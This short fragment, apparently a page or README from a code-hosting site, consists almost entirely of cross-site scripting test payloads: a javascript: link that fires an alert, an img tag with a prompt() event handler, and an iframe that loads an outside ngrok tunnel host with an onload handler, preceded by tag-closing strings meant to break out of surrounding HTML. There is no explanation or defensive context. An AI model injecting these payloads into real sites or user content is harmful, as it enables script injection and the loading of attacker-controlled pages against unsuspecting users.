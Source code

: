 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<iframe src=https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app onONLOAD=promot('xss')>clickem</iframe>
